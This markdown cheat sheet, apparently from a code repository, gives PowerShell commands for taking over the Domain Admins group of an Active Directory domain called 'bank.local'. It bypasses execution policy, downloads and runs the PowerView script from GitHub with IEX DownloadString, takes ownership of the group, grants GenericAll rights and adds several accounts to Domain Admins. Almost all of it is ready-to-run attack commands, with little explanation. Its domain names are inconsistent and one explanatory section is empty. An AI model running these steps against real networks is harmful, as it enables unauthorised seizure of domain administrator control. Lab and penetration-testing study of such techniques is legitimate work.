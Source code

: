# Power view cheat sheet

## Commands
## Note: Domain = `bank.local`, User = `goodboy`

```bash
powershell -ep bypass

Import-Module .\PowerView.ps1

Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'

Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"

net group "domain admins" goodboy /add /domain
```

## Import the AD module (requires RSAT or AD PowerShell tools)
```bash
Import-Module ActiveDirectory
```
## Now try the command again

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"
$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity
```

- Create the AD: drive if missing
```bash
New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"
```
- Now get ACL

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

- Take ownership

```bash
$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"

$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))

$group.psbase.CommitChanges()
```
- Add self to group
```bash
$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")
```

# Key Explanations:

## Permission Why Needed

- Modify owner	
- Modify permissions	
- Write properties	

### 1. with ✔ Modify permissions

```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

Get-Command -Module PowerView
```
- Note: (If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

- Verify if 'bb2' has WriteDACL on Domain Admins
```bash
Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights
```
- Add GenericAll permission
```bash
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose
```
- Add your account to the group
```bash
Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose
```
- Verify
```bash
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
```

### 2. with permission  - write all properties ✔ is  only enabled

### if powerview  fails
```bash
$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")
```
### 3. with permissions - ✔ modify owner is only enabled
```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
```
-or downloade the script and run by import
```bash
powershell -ep bypass
Import-Module .\powerview.ps1

Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

Set-ExecutionPolicy Bypass -Scope Process -Force
```

- 1.Take ownership
```bash
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose
```
- 2.Grant yourself GenericAll
```bash
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose
```

- 3.Add to group
```bash
Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose
```